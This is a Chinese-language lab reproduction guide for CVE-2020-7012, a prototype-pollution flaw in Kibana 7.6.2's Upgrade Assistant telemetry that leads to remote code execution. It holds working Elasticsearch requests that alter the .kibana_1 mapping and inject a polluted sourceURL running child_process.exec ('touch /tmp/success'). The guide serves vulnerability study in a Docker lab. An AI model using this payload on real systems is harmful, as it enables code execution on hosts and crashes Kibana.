


# Kibana 7.6.2 upgrade-assistant-telemetry 原型污染导致远程代码执行 (CVE-2020-7012)

Kibana 是 Elasticsearch 的开源数据可视化仪表盘工具。

Kibana 6.7.0 至 6.8.8 版本以及 7.0.0 至 7.6.2 版本中的 Upgrade Assistant 功能存在原型污染漏洞。具有 Kibana 索引写入权限的认证用户可以插入恶意数据，导致 Kibana 执行任意代码。攻击者可能利用此漏洞以 Kibana 进程的权限在主机系统上执行代码。

参考链接：

- <https://hackerone.com/reports/852613>
- <https://discuss.elastic.co/t/elastic-stack-6-8-9-and-7-7-0-security-update/235571>

## 环境搭建

使用 Docker 启动 Kibana 7.6.2 和 Elasticsearch 7.6.2：

```bash
docker compose up -d
```

环境启动后，Kibana 将监听在 `http://your-ip:5601`。

## 漏洞复现

远程代码执行漏洞发生在 Kibana 从 Elasticsearch 读取带有 `upgrade-assistant-telemetry` 属性的保存对象时。你可以通过直接向 Elasticsearch 发送数据或通过 Kibana 提交查询来利用此漏洞。代码执行将在 Kibana 重启后或数据收集时（具体时间未知）发生。

首先进入 Kibana UI 的开发者工具（URL 为 `http://your-ip:5601/app/kibana#/dev_tools/console`），然后发送以下请求来修改 Kibana 映射，以允许自定义的 `upgrade-assistant-telemetry` 文档：

```json
PUT /.kibana_1/_mappings
{
  "properties": {
    "upgrade-assistant-telemetry": {
      "properties": {
        "constructor": {
          "properties": {
            "prototype": {
              "properties": {
                "sourceURL": {
                  "type": "text",
                  "fields": {
                    "keyword": {
                      "type": "keyword",
                      "ignore_above": 256
                    }
                  }
                }
              }
            }
          }
        },
        "features": {
          "properties": {
            "deprecation_logging": {
              "properties": {
                "enabled": {
                  "type": "boolean",
                  "null_value": true
                }
              }
            }
          }
        },
        "ui_open": {
          "properties": {
            "cluster": {
              "type": "long",
              "null_value": 0
            },
            "indices": {
              "type": "long",
              "null_value": 0
            },
            "overview": {
              "type": "long",
              "null_value": 0
            }
          }
        },
        "ui_reindex": {
          "properties": {
            "close": {
              "type": "long",
              "null_value": 0
            },
            "open": {
              "type": "long",
              "null_value": 0
            },
            "start": {
              "type": "long",
              "null_value": 0
            },
            "stop": {
              "type": "long",
              "null_value": 0
            }
          }
        }
      }
    }
  }
}
```

然后发送第二个请求来注入恶意的 telemetry 文档：

```json
PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
{
  "upgrade-assistant-telemetry": {
    "ui_open.overview": 1,
    "ui_open.cluster": 1,
    "ui_open.indices": 1,
    "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('touch /tmp/success')"
  },
  "type": "upgrade-assistant-telemetry",
  "updated_at": "2020-04-17T20:47:40.800Z"
}
```



最后，你需要等待一段时间让 payload 执行。如果不想等待，可以通过 `docker compose restart kibana` 重启 Kibana 服务器，恶意代码将在服务重启后执行。

如图所示，`touch /tmp/success` 将在服务重启后执行：



> **重要提示：漏洞利用后，Kibana 将崩溃且无法启动。你需要从 ElasticSearch 中删除 `.kibana_1` 索引才能恢复功能。**
